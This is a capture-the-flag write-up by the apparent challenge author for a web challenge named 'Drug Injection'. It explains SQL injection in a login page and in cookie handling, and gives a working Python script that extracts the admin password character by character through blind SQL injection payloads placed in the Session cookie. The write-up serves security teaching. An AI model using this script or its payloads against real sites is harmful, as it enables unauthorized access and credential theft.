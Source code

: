 ```yaml
---
categories: [ShunyaCTF]
tags: [web exploitation]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF Aarambha
image:
    path: /assets/img/Banners/DrugInjection.jpg
pin: False
---
```


# Solution for Drug Injection Challenge

## Challenge Overview
I made a drug awareness website for my drug addict friend as a joke to help him get over his addiction. He kept complaining about not being able to log in. He scored an injection drug. I tried to convince him that he should stop getting high before he tries to log in. Injections won't always help you get higher access. He was not satisfied with just a single injection; he wanted to try a double dose. How do I convince him to stop? Help me spread awareness!

This challenge revolves around exploiting SQL injection vulnerabilities in the login page and the cookie handling mechanism to retrieve sensitive information.

## Vulnerability Explained
The application is vulnerable to SQL injection in two areas:
1. **Login Page:** The input fields for username and password are not properly sanitized, allowing malicious SQL code to be executed.
2. **Cookie Handling:** The application directly uses the cookie value in SQL queries without sanitization, enabling attackers to inject SQL commands through crafted cookies.

By leveraging these vulnerabilities, an attacker can retrieve the administrator's password, which serves as the flag for this challenge.

## Application Walkthrough
Index page of web application looks like this:
![homepage](/assets/img/ShunyaCTF/DrugInjection/homepage.png)

We see login option at the top-right of the page click that button and we are redirected to login page which looks like this:
![loginpage](/assets/img/ShunyaCTF/DrugInjection/loginpage.png)

and after successful login you will be redirected to this:
![welcomepage](/assets/img/ShunyaCTF/DrugInjection/welcomepage.png)

## Solution Script Walkthrough
To solve the challenge, we focus on exploiting the cookie handling vulnerability. Below is the breakdown of the solution script:

1. **Initialize the Session:**
   - Use the `requests` library to manage the session and send HTTP requests to the target application.

2. **Target URL:**
   - The script interacts with the `/welcome.php` endpoint of the challenge.

3. **Craft Cookie for Injection:**
   - A custom cookie is created containing the SQL injection payload.

4. **SQL Injection Payload:**
   - The payload extracts the password character by character using the `SUBSTRING` function in SQL.
   - Example payload: `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin')='a`.

5. **Retrieve Password:**
   - Iterate through all characters in the password by testing against a predefined character set.
   - Append matching characters to the `password` variable until the full password is retrieved.

Here is the script:

```python
import requests

# Welcome page URL of the challenge
url = '<url>/welcome.php'

r = requests.Session()

cookie1 = {
    'Session': '<Your cookie value>'
}

res = r.get(url=url, cookies=cookie1)

char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{"

sess_cookie = cookie1['Session']
print(sess_cookie)

count = 1
password = ''
while count <= 57:
    for char in char_set:
        # SQL injection payload
        payload = "' AND (SELECT SUBSTRING(password, " + str(count) + ", 1) FROM users WHERE username='admin')='" + char
        cookie = {'Session': sess_cookie + payload}
        test = r.get(url=url, cookies=cookie)

        if "Welcome, Sir!" in test.text:
            password += char
            print(f"[+] password: {password}")
            count += 1
```

## How to Use the Solution Script
1. Replace `<url>` with the challenge URL and `<Your cookie value>` with the session cookie value.
2. Run the script in a Python environment with the `requests` library installed.
3. Observe the console output to see the password being retrieved character by character.
4. Once the script completes, the full password (flag) will be displayed.

## Conclusion
This challenge highlights the critical importance of proper input validation and sanitization in web applications. By demonstrating the exploitation of SQL injection vulnerabilities, it underscores the need for secure coding practices to protect sensitive data from unauthorized access.

